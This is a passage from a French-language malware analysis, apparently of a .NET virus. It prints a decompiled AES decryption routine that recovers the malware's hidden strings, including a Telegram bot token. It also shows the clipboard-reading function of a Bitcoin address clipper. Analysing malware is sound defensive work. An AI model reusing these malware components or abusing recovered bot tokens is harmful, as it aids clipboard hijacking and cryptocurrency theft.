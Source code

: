 ```C
		}

```
Puis aprés 300 lignes de codes , on obtient :

![All text](./img/string2.png)

La fonction La plus important est celle ci :

```C
public static string Decrypt(byte[] bytesToBeDecrypted)
	{
		byte[] bytes = null;
		using (MemoryStream memoryStream = new MemoryStream())
		{
		using (RijndaelManaged rijndaelManaged = new RijndaelManaged())
		{
			rijndaelManaged.KeySize = 256;
			rijndaelManaged.BlockSize = 128;
			Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(Program.cryptKey, Program.saltBytes, 1000);
			rijndaelManaged.Key = rfc2898DeriveBytes.GetBytes(rijndaelManaged.KeySize / 8);
			rijndaelManaged.IV = rfc2898DeriveBytes.GetBytes(rijndaelManaged.BlockSize / 8);
			rijndaelManaged.Mode = CipherMode.CBC;
			using (CryptoStream cryptoStream = new CryptoStream(memoryStream, rijndaelManaged.CreateDecryptor(), CryptoStreamMode.Write))
			{
			cryptoStream.Write(bytesToBeDecrypted, 0, bytesToBeDecrypted.Length);
			cryptoStream.Close();
			}
			bytes = memoryStream.ToArray();
		}
		}
		return Encoding.UTF8.GetString(bytes);
	}
```

Tout le programme est disponible [ici](./files/getstring.zip)

La chose la plus intéréssante ici est le token du bot Télégram . Nous verrons ensuite ce que nous pouvons en faire .

#### Autres fonctions

On retrouve d'autres fonctions assez classique pour un virus :

- Un BitCoinAdress Clipper

```C
public static string GetText()
{
  string ReturnValue = string.Empty;
  try
  {
    Thread thread = new Thread(delegate()
    {
      ReturnValue = Clipboard.GetText();
    });
    thread.SetApartmentState(ApartmentState.STA);
    thread.Start();
    thread.Join();
  }
  catch
  {
  }
  return ReturnValue;
}
```